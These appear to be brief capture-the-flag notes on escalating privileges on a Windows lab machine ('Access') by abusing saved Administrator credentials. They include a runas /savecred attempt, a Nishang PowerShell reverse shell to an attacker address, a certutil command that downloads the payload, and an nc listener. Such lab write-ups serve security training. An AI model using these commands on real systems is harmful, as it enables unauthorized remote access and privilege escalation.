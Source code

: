 

# Stored credential on server
> cmdkey /list
Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
                               Type: Domain Password
    User: ACCESS\Administrator
    
# Look credentials
C:\Users\security>dir /a C:\Users\security\AppData\Roaming\Microsoft\Credentials\
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\AppData\Roaming\Microsoft\Credentials

08/22/2018  10:18 PM    <DIR>          .
08/22/2018  10:18 PM    <DIR>          ..
08/22/2018  10:18 PM               538 51AB168BE4BDB3A603DADE4F8CA81290
               1 File(s)            538 bytes
               2 Dir(s)  16,773,267,456 bytes free

########### Meth 1 : not working

# Use credentials to run cmd : copy root.txt to Temp
C:\Users\security>runas /user:ACCESS\Administrator /savecred "cmd.exe C:\Users\Administrator\Desktop\root.txt > C:\Users\security\AppData\Local\Temp\test.txt"

C:\Users\security>type C:\Users\security\AppData\Local\Temp\test.txt


runas /user:ACCESS\Administrator /savecred "cmd.exe C:\Users\Administrator\Desktop\root.txt > C:\Users\security\AppData\Local\Temp\test.txt"
type C:\Users\security\AppData\Local\Temp\test.txt

(not working...)


# Use Invoke-PowershellTcp
Use : /usr/share/nishang/Shells/Invoke-PowershellTcp.ps1
echo "InvokePowerShellTcp Reverse IPAddress 10.10.14.14 Port 4443">> ./Invoke-PowershellTcp.ps1
$ python -m SimpleHTTPServer

# wget from windows : certutil
> certutil -f -split -urlcache http://10.10.14.14:8000/Invoke.ps1 Invoke.ps1

# prepare nc
root@kali:~/htb/access# nc -lvnp 4443
